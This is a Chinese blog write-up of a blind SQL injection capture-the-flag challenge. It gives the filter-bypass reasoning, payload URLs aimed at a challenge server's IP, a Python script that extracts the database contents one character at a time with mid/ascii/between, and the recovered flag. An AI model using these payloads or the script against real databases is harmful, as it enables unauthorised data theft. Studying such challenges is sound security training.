 ```yaml
---
layout: post
title: SQL盲注
categories: [general, setup, demo]
tags: [demo, dbyll, dbtek, setup]
fullview: true
comments: true
---
```


最近在练习sql注入写脚本，记录一下思路，刚学的and 1=1也拿出来溜溜  
  
http://119.23.73.3:5004/?id=1  
  
>     首先，没有被过滤是正常显示。  
>     没有被过滤但是查询不到就是空白，比如?id=99999
>     waf过滤关键词，提示whatfuck

## ①   

我首先判断的是有没有用trim()函数，要知道trim函数和过滤是不一样的。  

区别很简单，举个例子。trim默认移除字符串左右两边的空格  

>      http://119.23.73.3:5004/?id=1（此处1后边有空格）
>      如果使用了trim()函数，也过滤掉了空格。
>      那么这个不会出waf的，而是会正常显示id=1的内容。
>      会让你以为空格并没有过滤，是因为trim函数把空格去掉后才用waf函数进行的判断。  

测试的方法很简单**?id=1 1**，让空格在里面就好了。  

发现过滤了空格，寻找能够代替空格的字符。  

>     %20 %09 %0a %0b %0c %0d %a0 %00 /**/    ()  

发现只有()没有被过滤。  

## ②
判断是整形注入还是字符型注入，?id=1-0，发现不是id=1的界面，不是整形注入  
  
## ③

判断id的保护是什么?首先猜测是引号，输入1'1，(这里为了排除trim函数的影响)，发现没有出现waf，但是会出现空白。所以是单引号保护，因为单引号没有被过滤，会匹配原来保护id的两个单引号的前一个，导致了有一了孤零零的单引号没有人和他配对，就会出错，什么也查不出来。  

##④

判断截断字符有没有被过滤，发现尝试%23，--+，--%20都会被过滤。  

所以考虑and '1这样绕过，匹配最后的那个'，不让他孤零零，有任何他匹配就不会出错。  

## ⑤   

判断其他的过滤字符  

>     union被过滤，无法使用联合查询
>     > < like regexp被过滤，但是=没有被过滤，between and 也没有被过滤。  
>     or被过滤，information这个一会再说，有点特殊。  
>     mid,ascii没有被过滤，逗号也没有被过滤。

## ⑥
判断逻辑  

>     http://119.23.73.3:5004/?id=1%27and(select(0))and%271
>     http://119.23.73.3:5004/?id=1%27and(select(1))and%271  

发现可以判断出来注入的逻辑，只要构造语句让select(0)和select(1)里面的1，0值出现就可以判断了。  

## ⑦   
脚本，py3

<pre><code>import requests

shiliu="0x20"
zuihou="0x7f"
i=1
while True:
    #http://119.23.73.3:5004/?id=1%27and(select(mid((select(database())),1,1))=%27m%27)and%271 #MOCTF
    #url="http://119.23.73.3:5004/?id=1%27and(select(select(group_concat(table_name))from(information_schema.tables)where(table_schema)='moctf')between("+shiliu+")and(0x7f))and%271"  #DO_Y0U_L1KE_LONG_T4BLE_NAME,NEWS
    #url="http://119.23.73.3:5004/?id=1%27and(select(select(group_concat(column_name))from(information_schema.columns)where(table_name)='do_y0u_l1ke_long_t4ble_name')between("+shiliu+")and(0x7f))and%271"  #D0_YOU_ALS0_L1KE_VERY_LONG_COLUMN_NAME
    url="http://119.23.73.3:5004/?id=1%27and(select(ascii(mid((select(d0_you_als0_l1ke_very_long_column_name)from(do_y0u_l1ke_long_t4ble_name)),"+str(i)+",1)))between("+shiliu+")and(0x7f))and%271"  #D0_YOU_ALS0_L1KE_VERY_LONG_COLUMN_NAME
    res=requests.get(url)
    #print(url)


#MOCTF{B1IND_SQL_1NJECTI0N_G0OD}

    if "Hello" not in res.text:
        i+=1
        x=hex(int(shiliu,16)-1)
        if '20' in x:
            break;
        print(x)
        zuihou = shiliu + zuihou.replace("0x","")



        shiliu="0x20"
        #shiliu=x+shiliu.replace("0x","")   #跑前三个的时候这个不能注释掉,跑最后一个得注释掉



    shiliu=str(hex(int(shiliu,16)+1))

</code></pre>  

数据库我是手动测试的，是moctf，然后剩下的，一开始偷了懒，没用ascii跑，结果flag大小写都提交不上，原因是flag有大写也有小写，数据库是对大小写不敏感的，用ascii就可以了  
  
第一个语句我没用脚本跑，自己用手试出来的。  
  
>     moctf{b1ind_SQL_1njecti0n_g0od}  
>     兄弟们不会做的就问啊，输出一下url，挨个看看怎么跑的，直接提交flag没啥用  


最后说一下那个or被过滤了，为什么information没有被过滤。    

information确实被过滤了，但是information只要加上其他为被过滤的字符，也不会被过滤。  

为此还去群里问了下，
  
出题人:Waf加了智能识别语义，information语境就不过滤，这样听起来会不会更牛逼